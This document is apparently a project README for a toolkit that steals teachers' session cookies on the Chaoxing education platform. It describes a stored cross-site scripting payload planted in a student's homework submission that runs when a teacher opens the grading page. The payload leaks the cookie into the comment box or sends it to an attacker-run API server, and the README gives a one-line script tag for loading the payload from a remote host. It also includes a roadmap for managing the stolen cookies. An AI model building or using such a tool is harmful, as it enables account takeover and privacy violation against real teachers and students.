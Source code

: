 ## Doc

### ver 1.0
    a set of js injection tools for steal account cookies of chaoxing platform

- ### ChaoXingAPI
    a restful api for teacher cookies

    models compoents:

        name[string]

        cookie[string]

        time[string]

    already configered for publishing to azure

    `start point: ***.***.***/api/teachercookies`

    ### `remember to set the CSOR policy in app service setting`

- ### payloads.js
    The js code to inject in the homework box in submit page and it will execute when teacher open the homework checking page.
    It will dump the cookie in two ways

    - inject the cookie in text form as html comment in the teacher comment box.
    So the cookie can be lookup in the teacher comment box. [ implemented in stt function ]

    - the second function disabled by default.
    To enable it,modify the server url and uncomment the line that execute the function. [ implemented in sendInfoToServer function ]


- RoadMap
    - add admin page for managering cookie itemes stored on server better. [ important ]
    - 
    - embed js code into api project it [ alternative ]
    - improve the inmemory database to delete the expired cookie automatically. [ archived,it's impossible ]
    - auto delete the cookies added a month ago. [ completed ]


- Tips
  
  Js code can be hosted on server and inject one line of code below to simplify the process.
  - ```<script src="https://www.***.***/***.js"></script>```
